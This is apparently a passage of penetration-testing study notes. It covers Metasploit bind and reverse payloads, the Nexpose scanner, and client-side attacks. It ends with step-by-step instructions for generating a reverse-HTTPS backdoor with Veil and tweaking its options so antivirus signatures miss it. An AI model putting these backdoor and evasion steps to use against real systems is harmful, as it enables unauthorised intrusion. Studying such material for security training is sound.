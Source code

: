 ##### Payloads

A payload is a piece of code that is to be executed through an existing exploit. For example twp types of payloads are to:

- to open a port on the target and connect to it (aka `bind`)
- open a port on the attacking computer, connect to the attacking computer from the target bypassing the firewall (aka `reverse`)

> On a `reverse`, setting the open port on the attacking computer to 80, will mimic that of a typical webserver and thus also bypassing any firewall filtration.

Setting a payload in metasploit can be done with the option `set payload [payload]`.

#### Nexpose

Nexpose is another product from the creators of metasploitable, and it is a vulnerability scanner. Nexpose will find any available exploits in your network that could be used, this could be used from a red team (attacker) and blue team (defender) perspective!

[![Nexpose]({static img/nexpose.jpg})](https://www.rapid7.com/products/nexpose/)

Nexpose can be downloaded from: <https://www.rapid7.com/products/nexpose/>.

> There is a free community edition!

### Client Side Attacks

Client side attacks are typically the next step if server side attacks fail or are not viable in the situation. Although, client side attacks can potentially be more difficult to accomplish as we are now (likely) depending on the weakest link in the security to be the human rather than a computer. In client side attacks, social engineering is one of the most used attack vectors, which also means that gaining as much information as possible about the target is critical for a successful attack.

#### Creating Backdoors

For creating backdoors we use a program called `veil`. Veil can installed via `apt-get`, and the source code is all open over at: <https://github.com/Veil-Framework/Veil>.

To use Veil: (use evasion, and use a rev_https (aka reverse https connection)):

1. Run `veil`
2. `list` to list available tools
3. `use [toolname]` to use tools, evasion is a typical tool to use
4. `list` (under a tool) to see available payloads
5. `use [payload number]`
6. check the options to set
7. be sure to set the LHOST (the IP for the target to connect to)
8. `set LHOST [ip]`
9. if you have a webserver running change to port, a good port is 8080 (an alternate port used by webservers)
10. `set LPORT 8080`
11. `options` to see options.

> For bypassing more antivirus programs, the more options you change, the less likely an existing identified signature is out there, we can change these options with
    1.  `set PROCESSORS [number(1)]` change processors.
    2.  `set SLEEP [number(6)]`
